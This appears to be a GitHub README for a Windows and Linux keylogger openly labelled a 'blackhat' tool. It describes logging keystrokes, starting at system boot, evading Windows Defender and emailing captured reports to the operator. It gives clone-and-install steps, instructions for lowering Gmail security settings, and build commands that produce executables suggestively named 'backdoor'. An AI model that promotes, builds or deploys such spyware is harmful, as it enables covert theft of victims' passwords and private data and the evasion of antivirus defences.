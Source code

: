 # ABOUT THIS PROJECT

Remote persistent keylogger for Windows and Linux.

# Features:
- Logs keys pressed on keyboard
- Does not require root or admin privlages.
- Sends reports by email for ech and everything (AWESOME)
- Starts with system startup.
- Works with Linux and Windows.
- NO SPAMM EMAIL 
- IT BYPASS windows defender 2019 new update

# installation guide 

1. cd /opt/

2. git clone https://github.com/mRanonyMousTZ/mr-robot-keylogger-2019

3. cd mr-robot-keylogger-2019

4. chmod +x *

5. ./install.sh

6. after that you need gmail account and before anything make sure you turn it on lesssecureapps
   to do so use this link https://myaccount.google.com/lesssecureapps


# usage 

usage: runme.py [-h] [-i INTERVAL] [-w] [-l] [-e EMAIL] [-p PASSWORD] -o OUT

MR ANONYMOUS BLACKHAT KEYLOGGER v2.0

Optional Arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Time between reports in seconds.
  -w, --windows         Generate a Windows executable.
  -l, --linux           Generate a Linux executable.

Required Arguments:
  -e EMAIL, --email EMAIL
                        Email address to send reports to.
  -p PASSWORD, --password PASSWORD
                        Password for the email address given in the -e
                        argument.
  -o OUT, --out OUT     Output file name.

# exapmle (WINDOWS)

python runme.py -i 40 -w -e "your email(gmail)" -p "your password" -o "name of your keylogger (eg backdoor)" 

# Example (linux)

python runme.py -i 40 -l -e "your email(gmail)" -p "your password" -o "name of your keylogger (eg backdoor)"

#after generate ur keylogger navigate in your mr-robot-keylogger-2019 directory, you will find DIST folder open it you will find ur generated keylogger there.



# ENJOY @MR ANONYMOUS( THE FREEDOM ) 





